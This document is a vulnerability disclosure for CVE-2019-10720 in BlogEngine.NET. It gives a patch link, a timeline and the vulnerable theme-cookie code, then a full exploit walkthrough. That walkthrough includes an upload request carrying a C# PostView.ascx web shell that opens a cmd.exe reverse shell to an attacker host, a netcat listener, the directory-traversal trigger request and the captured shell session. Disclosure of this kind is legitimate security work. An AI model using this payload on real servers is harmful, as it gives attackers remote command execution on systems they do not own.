 A remote code execution (RCE) attack, CVE-2019-10720, exists on BlogEngine.NET versions 3.3.7 and earlier.  A user with privileges to add/upload files could upload a malicious `PostView.ascx` file and exploit a directory traversal in the **theme** cookie to trigger the RCE.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 17 Jun 2019

## Description

The application will use the **theme** cookie if the **theme** parameter is not set:

~~~{command="BlogEngine.Core/BlogSettings.cs"}
413         public string Theme
414         {
415             get
416             {
417                 var context = HttpContext.Current;
418                 if (context != null)
419                 {
420                     var request = context.Request;
421                     if (request.QueryString["theme"] != null)
422                     {
423                         return request.QueryString["theme"];
424                     }
425
426                     var cookie = request.Cookies[this.ThemeCookieName];
427                     if (cookie != null)
428                     {
429                         return cookie.Value;
430                     }
~~~

The **theme** cookie is vulnerable to a directory traversal; the **theme** cookie can be set to a folder that contains a malicious `PostView.ascx`, such as `.../../App_Data/files`.  The malicious code contained in `PostView.ascx` will be executed.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10720/exploit.py>

A malicious file can be uploaded using `File Manager` in the application, `/api/upload?action=file`, or `/api/upload?action=filemgr`. In the following example `/api/upload?action=file` is used to upload the malicious `PostView.ascx` file:

<pagebreak></pagebreak>

~~~
POST /api/upload?action=file HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: XXX
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

		using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("$LHOST", $LPORT)) {
			using(System.IO.Stream stream = client.GetStream()) {
				using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
					streamWriter = new System.IO.StreamWriter(stream);

					StringBuilder strInput = new StringBuilder();

					System.Diagnostics.Process p = new System.Diagnostics.Process();
					p.StartInfo.FileName = "cmd.exe";
					p.StartInfo.CreateNoWindow = true;
					p.StartInfo.UseShellExecute = false;
					p.StartInfo.RedirectStandardOutput = true;
					p.StartInfo.RedirectStandardInput = true;
					p.StartInfo.RedirectStandardError = true;
					p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
					p.Start();
					p.BeginOutputReadLine();

					while(true) {
						strInput.Append(rdr.ReadLine());
						p.StandardInput.WriteLine(strInput);
						strInput.Remove(0, strInput.Length);
					}
				}
			}
		}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
		StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

The exploit can be triggered by opening a `netcat` listener:

~~~{command="nc -nlvp $LPORT"}
listening on [any] $LPORT ...
~~~

Browsing to the application with the **theme** cookie set to `../../App_Data/files/2019/06/`, no authentication required, triggers the Code Execution and opens a reverse shell:

~~~
GET / HTTP/1.1
Host: $LHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: theme=../../App_Data/files/2019/06;
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp $LPORT"}
listening on [any] $LPORT ...
connect to [$LHOST] from (UNKNOWN) [$RHOST] 49822
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
ipconfig
C:\Windows\system32>ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
~~~
